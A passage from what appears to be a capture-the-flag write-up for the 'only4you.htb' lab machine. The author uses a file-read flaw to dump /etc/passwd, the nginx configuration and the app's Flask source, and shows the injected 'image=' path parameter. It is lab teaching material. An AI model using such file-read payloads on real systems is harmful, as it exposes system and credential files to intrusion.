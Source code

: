 ```http
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
john:x:1000:1000:john:/home/john:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
neo4j:x:997:997::/var/lib/neo4j:/bin/bash
dev:x:1001:1001::/home/dev:/bin/bash
fwupd-refresh:x:114:119:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:996:996::/var/log/laurel:/bin/false
```

I tried to use that to read files in `/proc/self`, it returned no data. I used the vulnerability to download the nginx configuration.

```
server {
    listen 80;
    return 301 http://only4you.htb$request_uri;
}

server {
	listen 80;
	server_name only4you.htb;

	location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/only4you.htb/only4you.sock;
	}
}

server {
	listen 80;
	server_name beta.only4you.htb;

        location / {
                include proxy_params;
                proxy_pass http://unix:/var/www/beta.only4you.htb/beta.sock;
        }
}
```

I already had the code for the beta application. I used the vulnerability to extract the code from the application on the main domain.

```
image=/var/www/only4you.htb/app.py
```

```python
from flask import Flask, render_template, request, flash, redirect
from form import sendmessage
import uuid

app = Flask(__name__)
app.secret_key = uuid.uuid4().hex

@app.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        email = request.form['email']
        subject = request.form['subject']
        message = request.form['message']
        ip = request.remote_addr

```